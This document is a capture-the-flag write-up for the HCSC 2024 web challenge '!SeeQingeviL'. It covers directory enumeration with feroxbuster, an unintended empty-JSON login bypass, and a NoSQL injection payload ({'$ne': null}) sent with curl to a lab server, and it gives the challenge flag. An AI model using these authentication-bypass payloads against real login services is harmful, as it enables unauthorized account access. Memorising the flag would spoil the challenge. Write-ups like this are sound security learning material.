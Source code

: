 # HCSC 2024 - !SeeQingeviL

## Description

> Summer: Nagypapa Mr.Needful megint elkezdte a hülye Web3 projektjét!<br>
> Rick: B***** meg magát úgy látszik megint meg kell verni, hagyd hogy nagypapa dolgozzon.<br>
> Morty: Hey Rick mit csináltok?<br>
> Summer: Mr. Needful-t sz***** meg megint.<br>
> Rick: éééés kész csináltam erre a f*** oldalra fiókokat, úgy látom van egy admin is azt kéne átvenni.<br>
> Morty: Ohh istenem Rick nincs erre valami egyszerűbb megoldás?<br>
> Rick: Nincs b***** Fogd be a szád és tedd hasznossá magad.

Készítői kommentek:
 - VPN kapcsolat szükséges
 - A flag-et pontosan kell beírni

By: `incarrnati0n`

> Hint 1 (cost 125): Olvasd el a challenge nevét mégegyszer, biztos csak két oldal van?

## Metadata

- Tags: `web`, `sqli`, `nosqli`
- Points: `250`
- Number of solvers: `30`

## Solution

The challenge was available at `10.10.(1-9).12:50211`, for example: <http://10.10.1.12:50211>

![Main page](media/main-page.png)

Let's run `feroxbuster` first:

```
$ feroxbuster -u http://10.10.5.12:50211/
[...]
400      GET        1l        1w       19c http://10.10.5.12:50211/login
301      GET        0l        0w        0c http://10.10.5.12:50211/css => css/
200      GET       65l      167w     2232c http://10.10.5.12:50211/html/items.html
200      GET       33l       79w     1132c http://10.10.5.12:50211/html/login.html
301      GET        0l        0w        0c http://10.10.5.12:50211/index.html => ./
200      GET       52l       93w      801c http://10.10.5.12:50211/css/style.css
200      GET       62l      109w      696c http://10.10.5.12:50211/css/reset.css
[...]
```

There is an interesting `/html/login.html` page. This page is also referenced from the `/html/` page.

![/html/ page](media/html-page.png)

![/login.html page](media/login-page.png)

The page POSTs the following JSON to `/login`:

```json
{"name":"<USERNAME>","password":"<PASSWORD>"}
```

The answer is mostly `401 Unauthorized` with the message: `{"MrMeeseeks": "NO CAN DO!"}`

The name of the challenge hints for some kind of SQL injection. I've tried fuzzing the two parameters without luck. Then I've tried sending an empty JSON (`{}`) and I've got the flag.

```bash
$ curl -X 'POST' -d '{}' http://10.10.5.12:50211/login
{"Flag": "HCSC24{WUBBA_LUBBA_DUB_DUB!}"}
```

This was an unintended solutions. The intended solution was a NoSQL injection payload like:

```json
{"name": {"$ne": null}, "password": {"$ne": null}}
```

```bash
$ curl -X 'POST' -d '{"name": {"$ne": null}, "password": {"$ne": null}}' http://10.10.5.12:50211/login
{"Flag": "HCSC24{WUBBA_LUBBA_DUB_DUB!}"}
```

> Fun fact: Some players have also found the challenge source and the flag in a public GitHub repo (which was later changed to private)

Flag: `HCSC24{WUBBA_LUBBA_DUB_DUB!}`